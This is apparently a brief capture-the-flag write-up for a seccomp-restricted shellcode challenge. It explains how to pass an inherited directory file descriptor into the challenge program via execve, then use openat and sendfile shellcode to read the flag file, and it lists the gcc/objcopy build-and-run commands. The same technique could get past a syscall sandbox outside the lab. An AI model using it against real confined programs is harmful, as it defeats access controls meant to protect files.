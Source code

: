In this problem, you are allowed to use the following system calls instead of `fchdir`.
1. Allowing syscall: openat (number 257)
2. Allowing syscall: read (number 0)
3. Allowing syscall: write (number 1)
4. Allowing syscall: sendfile (number 40)

The different thing is that now the program does not open a file given by the `argv[1]`.
Thus, we cannot get the file descriptor for the top-level directory.

To solve this problem, we can open the top-level directory by ourselves and use it for `openat`.
To do that, I have created a simple C program that opens the top-level directory and `execve` the challenge program.
Then, the file descriptor remains in the challenge program and we can exploit it.

Use the following code to solve this problem.
```
openat(3, "./flag", 0);
sendfile(1, 4, 0, 0x80);
```

Running the following commands will lead you to the flag.
```
gcc main.c
gcc -nostdlib -static shellcode.s -o shellcode-elf​
objcopy --dump-section .text=shellcode-raw shellcode-elf​
/home/ctf/a.out < ~/shellcode-raw
```